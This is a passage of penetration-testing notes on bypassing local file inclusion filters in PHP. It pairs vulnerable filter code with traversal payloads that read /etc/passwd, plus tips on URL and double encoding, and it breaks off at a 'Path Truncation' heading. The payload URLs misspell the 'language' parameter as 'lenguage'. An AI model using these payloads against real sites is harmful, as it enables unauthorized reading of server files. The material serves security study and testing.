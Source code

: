 **Source Code**

```php
$language = str_replace('../', '', $_GET['language']);
```

**Bypass**

```php
http://SERVER.COM/index.php?lenguage=....//....//....//....//....//etc/passwd
```

## **Encoding**

![lfi_image1.png](../Images/lfi_image1.png)

**Note:** For this to work we must URL encode all characters, including the dots. Some URL encoders may not encode dots as they are considered to be part of the URL scheme.

**Note 2:** If this bypass mechanism does not work, it is always a good idea trying with double encoding.

## **Approved Paths**

**Source Code**

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

**Payload**

```php
http://SERVER.COM/index.php?lenguage=lenguages/../../../etc/passwd
```

## **Appended Extension**

### Path Truncation
